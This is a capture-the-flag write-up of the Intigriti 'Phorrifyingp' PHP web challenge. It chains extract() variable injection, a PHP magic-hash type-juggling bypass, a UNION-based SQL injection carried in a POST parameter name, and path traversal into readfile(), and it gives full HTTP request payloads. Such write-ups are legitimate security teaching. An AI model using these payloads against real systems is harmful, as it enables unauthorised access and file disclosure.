 ```yaml
---
layout: post
title: Intigriti CTF — Phorrifyingp
author: Cillian
tags: [ctf, web]
---
```

﻿
In this post I'll discuss the first challenge our team solved as part of the Intigriti CTF. This was a php web challenge where we were given the source and asked to read the contents of the file to retrieve a flag.

<!-- read more -->

## Initial Assessment
The source code for the challenge can be seen below:

    <?php  
	    /*  
	    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>  
	    */  
	    if ($_SERVER['REQUEST_METHOD'] == 'POST'){  
		    extract($_POST);  
	      
		    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){  
			    $loggedin = true;  
		    }  
	      
		    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){  
		    header('Location: ' . $_SERVER['REQUEST_URI']);  
		    }  
		      
		    if (isset($loggedin) && $loggedin){  
			    echo 'One step closer 😎<br>';  
		      
			    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){  
				    echo 'Really? 😅<br>';  
				      
				    $db = new SQLite3('database.db');  
				    $sql_where = Array('1=0');  
				      
				    foreach ($_POST as $key => $data) {  
					    $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";  
				    }  
				      
				    $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));  
				      
				    if ($result == 'admin'){  
					    echo 'Last step 🤣<br>';  
				      
					    readfile(file_get_contents('php://input'));  
					}  
			    }  
		    }  
	    }  
    ?> 
We can see that this challenge will require us to bypass a number of conditional statements in order to execute the final readfile() function, where we will then need to modify our payload so that we can read a file.

## Step 1: We're Logged In!

    if (isset($loggedin) && $loggedin)

The first important conditional statement is checking if the $loggedin variable is true. We notice a suspicious usage of the extract() function above this. This function allows variables to be extracted from arrays. It's being run on $_POST which is our POST input (user/attacker controlled). This will allow us to not only declare variable, but also to assign values to them using POST data.

We can simply pass a loggedin parameter with a value of true.

> POST / HTTP/1.1 Host: phorrifyingp.ctf.intigriti.io Content-Type:
> application/x-www-form-urlencoded Content-Length: 32
> 
> loggedin=true

Once sent, we see the confirmation on the page:

> One step closer 😎

## Step 2: It's Magic!

    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])
  The next conditional statement is checking for a GET parameter named "action". This parameter must satisfy the condition that its value is equal to its md5 value.
  
  This seems very unlikely. In fact, it takes a little bit of understanding about php [magic hashes](https://www.whitehatsec.com/blog/magic-hashes/) to understand how this condition could be satisfied.

In short, the use of "=\=" allows for comparison of different object types. If we wanted to compare the literal value, we'd use "\=\=\=". If we enter a String with a value such as "0e1", this will effectively equal 0 to the power of 1 (which is 0). In fact, 0 to the power of any number will always result in 0.

Using this logic, we simply need an input beginning with 0e and followed by a series of numbers which results in a md5 hash which also begins with 0e and is followed by a series of numbers.

Once such input is "0e215962017". The md5 value of which is "0e291242476940776845150308577824".

Placing this as a GET parameter, we will get one step closer.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    
    loggedin=true
We get the confirmation:

> Really? 😅

## Step 3: State Of The Union

    if ($result == 'admin')
The last conditional statement checks if $result is equal to 'admin'. This value comes from a SQL statement. Each of the parameters we pass in our POST data will become a part of this query. They are joined with the 'AND' condition. The clause array is initially populated with "1=0" which can never be true.

Firstly, we encounter errors about "no such column loggedin", which hints that we'll need to find a way to get rid of this part of the query, we can do so by commenting it out.

    1--=aaaa&loggedin=true
Next, we notice that the current state of the query will never be true due to the "1=0" condition. This hints towards us using a UNION query to separately select the "admin" entry. We inject this into the parameter name.

   

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    
    1/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true

We receive the confirmation that we have bypassed this check:

> Last step 🤣

## Step 4: Traversing The Plane
   

> Warning</b>: 
> readfile(1/\*\*/UNION/\*\*/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true):
> failed to open stream: No such file or directory in
> /var/www/html/index.php

As we can see from the error above, the entire POST data payload is being sent into the readfile() function.

We can enter invalid directories, as long as we traverse back out of them. Using "\.\." we are in effect removing it from the path **before** it is ever searched for.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
    
    1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php

And we get the flag:

> 1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}

## Final Notes
Thanks to all members of "Team Ireland Without RE" with special thanks to [@0daystolive](https://twitter.com/0daystolive).

